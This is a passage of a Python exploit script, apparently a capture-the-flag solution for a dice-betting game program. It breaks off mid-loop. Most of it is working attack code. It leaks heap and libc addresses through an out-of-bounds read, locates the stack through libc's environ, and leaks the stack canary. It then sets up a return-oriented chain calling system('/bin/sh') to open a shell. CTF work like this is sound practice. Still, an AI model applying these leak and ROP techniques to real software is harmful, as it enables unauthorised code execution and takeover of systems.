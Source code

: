 ```
    return die_face[-1]

dice = [
    "-----\n|   |\n| o |\n|   |\n-----\n",
    "-----\n|o  |\n|   |\n|  o|\n-----\n",
    "-----\n|  o|\n| o |\n|o  |\n-----\n",
    "-----\n|o o|\n|   |\n|o o|\n-----\n",
    "-----\n|o o|\n| o |\n|o o|\n-----\n",
    "-----\n|o o|\n|o o|\n|o o|\n-----\n",
]

# do leak first
decide_player(10)

heap_low_bytes = leak(-0x7E)
heap_high_bytes = leak(-0x7D)
heap_base = ((heap_high_bytes &lt;&lt; 32) | heap_low_bytes) - 0x10

libc_low_bytes = leak(-0x66)
libc_high_bytes = leak(-0x65)
libc_base = ((libc_high_bytes &lt;&lt; 32) | libc_low_bytes) - 0x1ec5c0

libc_environ = libc_base + libc.sym['environ']
offset = (libc_environ - heap_base - 0x4a0) &gt;&gt; 2
offset -= (1 &lt;&lt; 63) # offest should be negative
stack_low_bytes = leak(offset)
stack_high_bytes = leak(offset + 1)
stack_addr = ((stack_high_bytes &lt;&lt; 32) | stack_low_bytes)

canary_addr = stack_addr - 0x5f0
offset = (canary_addr - heap_base - 0x4a0) &gt;&gt; 2
offset -= (1 &lt;&lt; 63) # offest should be negative
canary_low_bytes = leak(offset)
canary_high_bytes = leak(offset + 1)
canary = ((canary_high_bytes &lt;&lt; 32) | canary_low_bytes)

# gadgets address
pop_rdi_rbp = libc_base + 0x00000000000276e9 # pop rdi ; pop rbp ; ret
str_bin_sh = libc_base + libc.search("/bin/sh").next()
system = libc_base + libc.sym['system']

# now let's win the game
while True:
    try:
        p.sendlineafter("4) Leave\n", "4")
        p.sendlineafter("Play again (y/n)?", "y")
        decide_player(5)

        dice_count = get_dice_count(25)

        start_bet()
        p.recvuntil("Player 3's turn\nBet ")
        start = map(int,p.recv(3).split(' '))
        # print(start)

        # predict what the AI will do
        path = find_a_way(dice_count, start[1], start[0])
        # print(path)
        if len(path) &lt; 6 or dice_count[path[-5][0]] == path[-5][1]:
            # Make sure we can gain an extra die by spot on
            # If not, quit and start again
            bet(path[-1][0], path[-1][1])
        else:
```